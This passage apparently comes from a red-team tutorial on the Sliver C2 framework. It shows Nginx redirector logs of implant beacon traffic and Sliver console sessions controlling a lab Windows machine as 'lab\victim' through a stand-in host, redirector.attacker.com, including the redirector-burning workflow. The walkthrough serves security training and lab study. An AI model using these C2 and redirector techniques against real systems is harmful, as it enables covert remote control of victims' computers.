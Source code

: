 Checking the redirector's Nginx logs `/var/log/nginx/access.log`:

```
53.142.247.31 - - [10/Feb/2022:03:50:06 +0000] "POST /assets/database/api.html?i=9146492g4&nz=01278318 HTTP/1.1" 200 856 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.6132.934 Safari/537.36"
53.142.247.31 - - [10/Feb/2022:03:50:06 +0000] "POST /assets/samples.php?s=10800365 HTTP/1.1" 202 0 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.6132.934 Safari/537.36"
53.142.247.31 - - [10/Feb/2022:03:50:08 +0000] "GET /assets/assets/jscript/umd/assets/jscript/bundles/app.min.js?e=1c009g46461 HTTP/1.1" 204 0 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.6132.934 Safari/537.36"
[...]
```

Our implant is speaking to the c2 server through the redirector. Once the redirector is burned, a new one can be spawned without having to setup another c2 server and sliver instance!

### Interact

To view sessions:

```
sessions
```

To kill sessions, `-k <session id>` or, `-K` to kill all sessions.

To interact with a session, we can use `use`. Enter the first character or two of the session ID and use tab to complete:

```
[server] sliver > use 20e7afe7-3dd7-4c85-9ccc-2d2d1f4c056d

[*] Active session DIFFICULT_CATSUP (20e7afe7-3dd7-4c85-9ccc-2d2d1f4c056d)

[server] sliver (DIFFICULT_CATSUP) > info

        Session ID: 20e7afe7-3dd7-4c85-9ccc-2d2d1f4c056d
              Name: DIFFICULT_CATSUP
          Hostname: lab
              UUID: c0e44d56-4ad5-78dd-3655-063fa9b53bf2
          Username: lab\victim
               UID: S-1-5-21-1012798714-27252290-1774702337-1000
               GID: S-1-5-21-1012798714-27252290-1774702337-513
               PID: 732
                OS: windows
           Version: 10 build 19042 x86_64
              Arch: amd64
         Active C2: https://redirector.attacker.com/assets
    Remote Address: tcp(53.148.16.72:52954)->53.142.247.31
         Proxy URL: 
Reconnect Interval: 1m0s

[server] sliver (DIFFICULT_CATSUP) > whoami

LAB\victim
```
